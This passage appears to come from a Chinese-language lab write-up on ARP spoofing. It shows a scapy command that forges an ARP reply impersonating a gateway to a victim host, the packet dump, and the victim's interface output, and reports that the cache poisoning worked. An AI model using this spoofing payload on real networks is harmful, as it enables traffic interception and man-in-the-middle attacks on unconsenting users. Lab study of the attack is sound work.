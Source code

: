   ![./img/sendpNotWork.png](./img/sendpNotWork.png)

最后使用send，发现成功了,而且测试发现:
1. 构造了一个hwdst在局域网中不存在的arp包,且victim的混杂模式已经关闭
```python
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.148", hwdst="08:00:27:5e:17:f9")
arpspoofed.show2()
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= 6
  plen= 4
  op= is-at
  hwsrc= 08:00:27:5e:16:f8
  psrc= 172.16.111.1
  hwdst= 08:00:27:5e:17:f9
  pdst= 172.16.111.148
```
```bash
$ ip add  
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:02:95:db brd ff:ff:ff:ff:ff:ff
    inet 172.16.111.148/24 brd 172.16.111.255 scope global dynamic noprefixroute eth0
       valid_lft 853217sec preferred_lft 853217sec
    inet6 fe80::a00:27ff:fe02:95db/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever

       #eth0 网卡混杂模式关闭
```
发出去，毒化成功了,好像发现hwdst任意填写都可以达到效果，好像靶机并不会检查这个字段...